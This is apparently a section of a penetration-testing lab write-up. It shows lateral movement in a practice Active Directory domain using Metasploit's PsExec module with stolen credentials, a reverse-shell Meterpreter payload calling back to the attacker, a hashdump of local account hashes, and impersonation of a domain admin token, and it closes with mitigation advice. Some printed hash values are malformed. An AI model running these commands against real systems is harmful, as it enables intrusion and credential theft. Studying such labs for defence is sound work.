



# Part 6: PsExec Exploitation and Token Impersonation

## 6.1 Overview

After gathering domain information and identifying high‑value targets, the attacker leverages the **PsExec** module within the Metasploit Framework to execute remote commands on a target machine (`THEPUNISHER`). Using the compromised credentials of `fcastle` (a domain user), the attacker obtains a Meterpreter session with administrative privileges on the workstation. Through **token impersonation**, the attacker then elevates to the `Administrator` account and extracts local password hashes.

This part demonstrates how an attacker can move laterally and escalate privileges using valid credentials, even without exploiting a service vulnerability.

---

## 6.2 Attack Execution – PsExec from Metasploit

*

The attacker has already obtained valid credentials for `fcastle` (e.g., from previous cracking or relay attacks). They now use the **PsExec** exploit module to execute a payload remotely via SMB:

```msf
use exploit/windows/smb/psexec
set RHOSTS 172.20.10.12
set SMBDomain marvel.local
set SMBUser fcastle
set SMBPass P@$#word
set PAYLOAD windows/x64/meterpreter/reverse_tcp
set LHOST eth0
set LPORT 4444
run
```

**Configuration details**:
- `RHOSTS`: `172.20.10.12` – the IP of `THEPUNISHER`.
- `SMBUser`/`SMBPass`: the compromised domain credentials.
- The payload will connect back to the attacker's machine on port `4444`.

---

## 6.3 Gaining Meterpreter Session



The module executes as follows:

```
[*] Started reverse TCP handler on 172.20.10.8:4444
[*] 172.20.10.12:445 - Connecting to the server ...
[*] 172.20.10.12:445 - Authenticating to 172.20.10.12:445|marvel.local as user 'fcastle' ...
[*] 172.20.10.12:445 - Uploading payload ... GbdQLHEI.exe
[*] 172.20.10.12:445 - Created \GbdQLHEI.exe ...
[*] Sending stage (248902 bytes) to 172.20.10.12
[*] 172.20.10.12:445 - Service started successfully...
[*] Meterpreter session 1 opened (172.20.10.8:4444 → 172.20.10.12:50009)
```

- PsExec uploads a malicious executable to the admin share (`ADMIN$`), creates a temporary service, starts it, and the service executes the payload.
- The payload connects back, giving the attacker a Meterpreter session with the privileges of the `fcastle` account on `THEPUNISHER`.

---

## 6.4 System Information and Initial Recon

From the Meterpreter session, the attacker gathers basic system information:

```
meterpreter > sysinfo
Computer : THEPUNISHER
OS : Windows 10 22H2+ (10.0 Build 19045)
Architecture : x64
Domain : MARVEL
Logged On Users : 7
```

The target is a Windows 10 workstation joined to the `MARVEL` domain.


The attacker attempts to dump local hashes directly with `hashdump`, but may encounter permission issues . Initially, they get some hashes:

```
meterpreter > hashdump
Administrator:500:aa3d3b35b1404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0::: 
DefaultAccount:503:aa3d3b35b1404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0::: 
Frank Castle:1001:aa3d3b35b1404eeaad3b435b51404ee:56a8399599f1be0418d9b263c29::: 
Invite:501:aa3d3b35b1404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0::: 
WDAGUtilityAccount:504:aa3d3b35b51404eeaad3b435b51404ee:61ff4ace4b52f54cf27b92e273b252d4:::
```

This shows the hashes for local accounts. Notably, the `Administrator` account has the well‑known hash `31d6cfe0d16ae931b73c59d7e0c089c0`, which is the NTLM hash for a **blank password**. This is a critical misconfiguration.

---

## 6.5 Token Impersonation – Elevating to Administrator



Now the attacker leverages Meterpreter's token manipulation capabilities. They list available tokens:

```
meterpreter > list_tokens -u
Delegation Tokens Available
...
MARVEL\Administrateur
...
Impersonation Tokens Available
No tokens available
```

The `Administrateur` token (domain admin) is available for delegation. This means the attacker can impersonate that user because the current process has the `SeImpersonatePrivilege` (or the token is present in the session).


They impersonate the token:

```
meterpreter > impersonate_token marvel\Administrateur
[+] Delegation token available
[+] Successfully impersonated user MARVEL\Administrateur
```

To verify, they spawn a shell and run `whoami`:

```
meterpreter > shell
C:\Windows\system32>whoami
marvel\administrateur
```

The attacker now has a shell running as the domain administrator.

---

## 6.6 Impact and Attack Path

The combination of PsExec and token impersonation allows the attacker to:

- Execute arbitrary commands on remote systems using valid domain credentials.
- Elevate from a standard domain user (`fcastle`) to **Domain Administrator** (`Administrateur`) by leveraging an available delegation token.
- Extract local hashes, including the blank password hash for the local Administrator account, which can be used for **pass‑the‑hash** attacks on other machines.

This attack chain highlights the danger of:
- Weak password policies (allowing `fcastle` credentials to be cracked).
- Over‑privileged tokens being available for delegation.
- The local Administrator account having a blank password.

---

## 6.7 Mitigation Strategies

The lab documentation provides several countermeasures:

| Mitigation | Description |
|------------|-------------|
| **Limit token creation permissions** | Restrict who can create or manipulate tokens (e.g., `SeImpersonatePrivilege`). Use Group Policy to assign these privileges only to trusted accounts. |
| **Account tiering** | Separate administrative accounts from standard user accounts. Domain Admins should only log onto Domain Controllers and not onto workstations. This prevents their tokens from being available on lower‑tier machines. |
| **Local admin restriction** | Ensure that standard domain users are not local administrators on workstations. This limits the attacker's ability to use PsExec and perform lateral movement. |
| **Disable SMBv1 and enforce SMB signing** | As previously mentioned, this mitigates SMB relay and also complicates PsExec attacks (though PsExec can work over SMB2/3 with signing disabled). |
| **Use strong, unique passwords** for all accounts, especially service accounts and local admins. |
| **Enable advanced audit logging** to detect token impersonation and lateral movement. |

Additionally, **Microsoft LAPS** should be used to manage local administrator passwords so that each machine has a unique, random password.

---

## 6.8 Conclusion 

PsExec, combined with token impersonation, is a powerful and stealthy technique for lateral movement and privilege escalation. In this lab, the attacker uses valid but low‑privileged credentials to obtain a session on a workstation, then elevates to domain administrator by stealing an available token. This underscores the importance of the principle of least privilege, proper token handling, and robust authentication controls.

The lab also demonstrates that even if the attacker does not initially possess domain admin rights, they can quickly obtain them through the combination of weak passwords and misconfigured token permissions.

---
